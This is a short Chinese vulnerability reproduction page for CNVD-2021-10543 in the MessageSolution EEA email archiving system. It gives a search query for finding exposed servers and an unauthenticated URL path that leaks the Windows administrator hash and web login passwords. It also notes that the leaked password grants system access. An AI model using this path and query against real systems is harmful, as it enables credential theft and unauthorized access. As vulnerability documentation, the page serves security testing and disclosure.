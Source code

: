 # MessageSolution 邮件归档系统EEA 信息泄露漏洞 CNVD-2021-10543

## 漏洞描述

MessageSolution企业邮件归档管理系统 EEA是北京易讯思达科技开发有限公司开发的一款邮件归档系统。该系统存在通用WEB信息泄漏，泄露Windows服务器administrator hash与web账号密码

## 漏洞影响

<a-checkbox checked>MessageSolution 企业邮件归档管理系统EEA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="MessageSolution Enterprise Email Archiving (EEA)"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/mess-1.png)



访问如下Url

```plain
http://xxx.xxx.xxx.xxx/authenticationserverservlet/
```

![img](../../../.vuepress/public/img/mess-2.png)



使用获得到的密码可以登录系统

![img](../../../.vuepress/public/img/mess-3.png)